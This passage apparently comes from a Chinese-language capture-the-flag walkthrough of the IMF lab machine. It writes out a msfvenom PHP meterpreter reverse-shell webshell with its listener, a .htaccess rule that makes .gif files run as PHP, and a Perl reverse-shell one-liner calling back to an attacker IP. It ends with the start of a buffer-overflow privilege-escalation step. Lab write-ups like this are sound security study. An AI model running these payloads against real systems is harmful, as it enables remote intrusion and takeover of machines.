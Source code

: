```
//生成webshell
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.211.55.19 LPORT=4455 -f raw > ms.php

//监听
msfconsole
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set LHOST 10.211.55.19
set LPORT 4455
run
```
测试无法绕过waf！！！！！
-------------------
为什么该文件上传允许gif解析php？？
cd /var/www/html/imfadministrator/uploads ---进入文件上传目录
ls -la  ---查看到存在.htaccess
cat查看信息：
AddType application/x-httpd-php .php .gif
AddHandler application/x-httpd-php .gif
可看到该文件与继续gif解析php文件！

建议反弹个稳定的/bin/bash的shell回来控制：
nc -vlp 6677

perl -e 'use Socket;$i="10.211.55.19";$p=6677;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python3 -c 'import pty; pty.spawn("/bin/bash")'    ----环境仅安装了python3
ctrl+z
stty raw -echo
fg
这时候就完成了一个非常稳定的shell了！继续渗透！


10、缓冲区溢出-提权
通过flag5 base64解码获得：agentservices
这是提示agent的服务存在问题！

find / -name agent 2>/dev/null    发现：
/usr/local/bin/agent
/etc/xinetd.d/agent

访问：/usr/local/bin/agent
是可以访问的，并且需要输入数值ID！

netstat -ant    ---查看开启的端口情况
nc 127.0.0.1 7788    ---查看到开启7788端口是anget程序的

base64 agent       ----转码base64
gedit base64.txt   ----将base64信息放入
cat base64.txt | base64 -d > agent   ----base64转码为文件

md5sum agent                                  
fabc1afd43f668df0b812213567d032c  agent
查看MD5值没问题！

